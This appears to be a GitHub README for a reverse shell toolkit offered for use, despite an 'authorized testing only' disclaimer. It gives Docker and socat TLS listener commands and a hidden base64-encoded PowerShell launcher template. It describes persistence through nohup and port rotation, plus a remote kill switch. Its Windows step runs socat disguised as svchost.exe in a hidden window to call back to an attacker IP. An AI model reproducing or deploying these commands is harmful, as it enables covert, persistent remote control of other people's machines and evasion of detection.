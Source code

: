 # 🛠 Persistent Reverse Shell Toolkit

![Docker](https://img.shields.io/badge/Built%20With-Docker-blue)
![Shell](https://img.shields.io/badge/Scripting-Bash%20%7C%20PowerShell-yellow)
![License](https://img.shields.io/badge/Maintained%20by-C04CH_1337-red)

## 🔐 Overview

This project demonstrates how to maintain a **persistent, encrypted reverse shell** using:
- Docker + Bash scripts
- socat w/ SSL/TLS encryption
- Base64-encoded PowerShell payloads
- Port rotation & `nohup` persistence
- Remote kill switch & ping health check
- Windows delivery using renamed `svchost.exe` binary

> ⚠️ **For authorized penetration testing & research only.**

---

## 📁 File Tree

```
.
├── docker/
│   ├── Dockerfile
│   ├── cert.pem
│   ├── key.pem
├── scripts/
│   ├── reverse_shell.sh
│   ├── watchdog.sh
├── powershell/
│   └── payloads.ps1
├── windows/
│   └── svchost.exe (socat renamed)
├── README.md
```

---

## 🔧 Build & Run Docker

```bash
docker build -t revshell ./docker
docker run -d --name revshell -p 443:443 revshell
```

## 📦 socat TLS Listener (Manual)

```bash
socat OPENSSL-LISTEN:443,cert=cert.pem,key=key.pem,reuseaddr,fork -
```

---

## 🛡 PowerShell Payloads (Encoded)

### Payload: Base64 Launcher

```powershell
powershell -NoP -NonI -W Hidden -EncodedCommand <base64-string>
```

---

## ⚙️ Persistence & Watchdog

- `nohup` keeps socat running detached
- Rotates ports between 443, 8443, 53, 5985
- Remote kill via hosted `kill.txt`
- Healthcheck: Pings attacker IP before launching socat

---

## 💀 Kill Switch Example

Host a file `kill.txt` at your domain:
```
KILL
```

---

## 📦 Windows Payload

Drop `windows/svchost.exe` and use:
```powershell
Start-Process -WindowStyle Hidden -FilePath "C:\Temp\svchost.exe" -ArgumentList "STDIO OPENSSL:192.168.1.100:443,verify=0"
```

---

## 🔖 Maintained by

> **C04CH_1337** 🧠
